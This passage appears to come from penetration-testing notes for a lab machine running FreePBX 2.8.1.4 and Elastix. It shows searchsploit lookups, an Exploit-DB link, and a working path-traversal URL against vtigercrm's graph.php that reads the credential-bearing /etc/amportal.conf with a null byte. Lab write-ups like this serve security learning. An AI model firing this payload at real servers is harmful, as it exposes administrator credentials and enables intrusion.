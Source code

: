 -> freePBX version is 2.8.1.4


#### Vuln Investigation

##### Check for exploits

```bash
searchsploit --id freepbx
searchsploit --id elastix
```
![freepbx results](images/freePBX-Screenshot_2021-01-28_15-04-13.png)
![elastix results](images/Elastix-Screenshot_2021-01-28_15-04-37.png)

tried some but this one is good for elastix https://www.exploit-db.com/exploits/37637



##### Check for informations on web

N/A

### Penetration

```http
https://10.129.87.168/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

```
